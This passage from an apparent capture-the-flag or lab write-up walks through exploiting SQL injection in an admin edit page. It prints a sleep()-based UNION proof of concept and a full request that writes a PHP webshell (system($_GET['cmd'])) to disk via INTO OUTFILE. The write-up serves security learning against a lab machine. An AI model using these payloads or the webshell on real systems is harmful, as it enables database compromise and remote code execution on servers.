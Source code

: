 
#### SQL Injection - Exploitation
With all the information gathered from the previous analysis, it was now time to build an actual query to inject.
Since it was just a Proof of Concept I started by injecting a simple sleep() function to suspend the HTTP response for 10 seconds.

```
GET /admin/edit.php?id=1+UNION+SELECT+1,(SELECT+sleep(10)),3,4+--+- HTTP/1.1
Host: 192.168.56.118
Cookie: PHPSESSID=7kg82uff32fgejeuhvu9c0rvl6
Connection: close
```
*GET request with the SQL sleep() function*

```
SELECT * FROM posts WHERE id=1 UNION SELECT 1,(SELECT SLEEP(10)),3,4 -- -
```
*Database query with the injected sleep() function*

Success! I was now able to fully compromise the database data by injecting malicious SQL queries.

#### From SQL Injection to Remote Code Execution
To complete this challenge, I had to inject an SQL query that would allow me to get code execution on the server.

For this purpose I used a well known method that allowed arbitrary file writing by using the SQL "INTO OUTFILE" statement.
The final task was to find a directory where the "www-data" user had write privileges and upload a PHP webshell to the server.

Since this was a white-box assessment, I quickly found the "/var/www/admin/uploads/" directory.

```
SELECT * FROM posts WHERE id=1 UNION SELECT 1,(SELECT '<?php echo system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/admin/uploads/cmd.php'),3,4 -- -
```
*Database query with the PHP webshell code*

```
GET /admin/edit.php?id=UNION+SELECT+1,(SELECT+'<%3fphp+echo+system($_GET["cmd"])%3b+%3f>'+INTO+OUTFILE+'/var/www/admin/uploads/cmd.php'),3,4+--+- HTTP/1.1
Host: 192.168.56.118
Cookie: PHPSESSID=7kg82uff32fgejeuhvu9c0rvl6
Connection: close
```
*GET request with the final SQL Injection payload*

After sending the request, I noticed the "cmd.php" file was created and contained the malicious PHP code, as seen in the picture below.

![](/assets/img/content/fc0ab53002f74b5a84324a49199c34ae.png)
*Result of the previous SQL Injection request*
